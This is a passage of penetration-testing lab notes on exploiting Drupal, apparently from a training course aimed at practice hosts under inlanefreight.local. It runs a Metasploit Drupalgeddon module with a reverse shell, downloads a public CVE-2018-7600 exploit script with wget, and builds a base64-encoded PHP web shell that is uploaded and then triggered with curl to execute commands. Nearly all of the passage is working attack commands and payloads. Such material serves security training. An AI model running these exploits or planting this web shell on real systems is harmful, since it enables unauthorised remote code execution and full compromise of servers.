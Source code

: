 #### Metasploit Integration
```bash
# Use Metasploit module
msfconsole
use exploit/multi/http/drupal_drupageddon
set RHOSTS drupal-qa.inlanefreight.local
set TARGETURI /
exploit

# Automatic exploitation with reverse shell
```

### CVE-2018-7600: Drupalgeddon 2 (RCE)

#### Vulnerability Details
```bash
# CVE-2018-7600 Overview:
Affected Versions: Drupal 6.x, 7.x, 8.x (prior to 7.58, 8.5.1)
CVSS Score: 9.8 (Critical)
Attack Vector: Unauthenticated remote code execution
Impact: Complete system compromise
Mechanism: Insufficient input sanitization in user registration
```

#### Manual Exploitation

**Basic PoC Execution:**
```bash
# Download Drupalgeddon2 exploit
wget https://raw.githubusercontent.com/a2u/CVE-2018-7600/master/drupalgeddon2.py

# Test vulnerability with file upload
python3 drupalgeddon2.py
# Enter target URL when prompted: http://drupal-dev.inlanefreight.local/

# Verify file upload
curl -s http://drupal-dev.inlanefreight.local/hello.txt
# Expected output: ;-)
```

**PHP Web Shell Upload:**
```bash
# Create malicious PHP payload
echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64
# Output: PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K

# Modify exploit script to upload PHP shell
# Replace echo command in script with:
echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php

# Execute modified exploit
python3 drupalgeddon2_modified.py
# Enter target URL: http://drupal-dev.inlanefreight.local/

# Test RCE via uploaded shell
curl "http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id"
```
